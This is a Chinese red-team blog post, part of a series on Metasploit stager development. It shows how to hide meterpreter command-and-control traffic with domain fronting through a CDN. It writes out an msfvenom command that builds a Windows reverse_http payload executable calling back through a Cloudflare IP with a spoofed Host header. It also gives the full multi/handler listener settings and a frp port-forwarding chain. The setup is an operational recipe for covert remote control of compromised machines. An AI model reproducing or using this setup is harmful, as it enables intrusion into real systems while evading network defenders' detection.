 ```yaml
---
title: "msf stagers开发不完全指北(四): msf 中使用域前置技术隐藏流量"
date: 2020-07-17 18:01:00
tags:
- msf
- 工具
- 红队
categories:
- 开发
---
```


前几篇都是说了下如何采用不同的语言开发 reverse_tcp 第二阶段，接下来将慢慢分析 reverse_http，这篇文章并不会围绕 stagers 进行讲解，这篇文章只是半埋上我之前挖的一个坑，关于域前置技术如何在 msf 中进行应用。

<!--more-->

## 域前置技术介绍


域前置技术（Domain-Fronting）顾名思义，把域名放在前面，流量的前面，那么我们应该如何做到这件事情，这个一般就是利用各大 cdn 服务了。


cdn 技术我不用做过多介绍，相信大家给自己的网站上 cdn 都会上，简略来说原理的话，在域名注册商那里把 ns 记录，也就是 dns 解析服务器指向到你选择的 cdn 服务商，然后 cdn 就可以接管你的域名解析了，通过不同的缓存分流策略，把流量经过他的服务器后再转发给我们自己，也就是 cdn 后面的真实ip我们是不容易找到的。


那么应用到 C2 上，我们 C2 服务器也可以挂在 cdn 后面，流量通过 cdn 转发回来。


具体更为详细的介绍可以参见 [红队行动之鱼叉攻击-倾旋](https://payloads.online/archivers/2020-02-05/1#domain-fronting)


## 基础配置


首先不管怎样你需要有一个服务器，以及一个加了 cdn 的域名执行你服务器


这里我假设我们持有的域名为 test.akkuman.com，域名配好 cdn 指向的服务器是 1.1.1.1


这里你是把服务器架在 msf 上面还是内网穿透打通端口，这个看自己喜好


我这里是 msf 位于其他地方 2.2.2.2，然后 2.2.2.2 的 5555 端口通过 frp 映射到 1.1.1.1 的 80 端口上。


5555 端口是我们待会 msf 监听的端口，80 端口是因为访问域名，http 协议，访问80。


因为这些流量会通过 cdn 先转发到我们主机上的 80 端口，然后 80 端口上的流量会通过 frp 处理后送到我们本机监听的 5555 端口上。


## 生成 msf payload


基础一些配置做好之后，我们可以生成 payload 了。


首先我们需要得到一个 cdn 的 ip，因为 cdn 是依靠 http header 中的 Host 头进行流量转发的，所以我们只需要 ping 一下我们加了 cdn 的域名即可获得一个 ip，这里我是用的 cloudflare，获得的一个 ip 为 172.67.207.124


```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=172.67.207.124 LPORT=80 HttpHostHeader=test.akkuman.com -f exe -o ~/payload.exe
```


这里 LHOST 为我们获取的 cdn ip，因为是 http 协议的 payload，访问域名是访问 80 端口，LPORT 我们设置为 80


HttpHostHeader 选项为这个生成的 payload 使用 http 协议回连到 cdn ip 时 http header 所使用的 Host 头，还记得我们刚才说的 cdn 如何识别域名进行流量转发吗，这个就主要是为了 cdn 能够把流量转回到我们自己的服务器


## 创建监听器


msf 在监听中有一些配置需要说明一下


```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf5 exploit(multi/handler) > set lhost 172.67.207.124
lhost => 172.67.207.124
msf5 exploit(multi/handler) > set lport 80
lport => 80
msf5 exploit(multi/handler) > set HttpHostHeader test.akkuman.com
HttpHostHeader => test.akkuman.com
msf5 exploit(multi/handler) > set OverrideRequestHost true
OverrideRequestHost => true
msf5 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf5 exploit(multi/handler) > set ReverseListenerBindPort 5555
ReverseListenerBindPort => 5555
msf5 exploit(multi/handler) > run
```


- 首先 lhost 为给 payload 返回第二阶段载荷时填入的 ip 地址，即第二阶段会回连到这个 ip


- lport 为给 payload 返回第二阶段载荷时填入的 port，即第二阶段会回连到这个端口


- HttpHostHeader 前面说过，是 payload 回连到这个 ip 和 port 时在 http header 中填入的 Host 头


- OverrideRequestHost 这个选项需要设置为 true，主要是因为 msf 的历史原因，msf 默认是使用传入请求 http header 中的 Host 字段来作为第二阶段的配置，也就是第二阶段会采用建立连接时传入请求的 Host，这种默认行为在大多数请求下没问题，具体可以自行测试，具体是需要 cdn 回连到我们真实 ip 时传递的域名是我们想要的，这个参数设置为 true 可以让 msf 忽略传入请求的 Host 头，而使用我们在 HttpHostHeader 中设置的


- ReverseListenerBindAddress 和 ReverseListenerBindPort 参数主要是因为我的环境问题，我是通过 frp 把 1.1.1.1:80 穿透到了本地 (2.2.2.2) 的 127.0.0.1:5555，如果你的 msf 直接在 1.1.1.1 上，那么 duck 不必这么做，直接监听 80 就好


ReverseListenerBindAddress 这个参数其实设置不设置都没关系，但是不设置的话会有个小报错，


```
[-] Handler failed to bind to 172.67.207.124:80
```


这是因为 handler 无法将 cdn 的 ip 绑定到LHOST，因为这个 ip 在我们服务器上不存在，绑定失败就会提示这个，然后继续绑定 0.0.0.0。如果想要在界面上不显示这个错误，需要设置 ReverseListenerBindAddress 为 0.0.0.0 或者 127.0.0.1 之类的


可以看到，当我们不设置 ReverseListenerBindAddress 和 ReverseListenerBindPort 时会出现上面的报错 `Handler failed to bind to 172.67.207.124:80`


也就是 handler 在本地上是希望监听 80 的，而 1.1.1.1:80 上面的流量是转发到我们服务器 (2.2.2.2) 本机的 5555 端口上的。


所以我们的监听程序实际上需要监听在 5555 端口上，所以需要设置 ReverseListenerBindPort 参数


上面的 lhost 和 lport 其实主要是为了第二阶段回送服务的。


## 实际效果


```
paylaod.exe <-> cdnip:80(Host: test.akkuman.com) <-> 1.1.1.1:80 <-> frp[1.1.1.1:7000<->2.2.2.2:随机端口] <-> 127.0.0.1:5555
```


![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/f307ddbb192427e72e620228ede6a747..png)


![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/02253a789ae1ae4a4bdaddd3a019d614..png)


可以看到不管是请求第二阶段还是后续的心跳包，都是有带上 Host 头，流经 cdn 服务器的，这样我们就达到了隐藏自身的效果


那么 msf 会话这边呢


![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/68c7066f12a652f6c55ce8f75b50e27f..png)



可以看到，也是可以正常使用的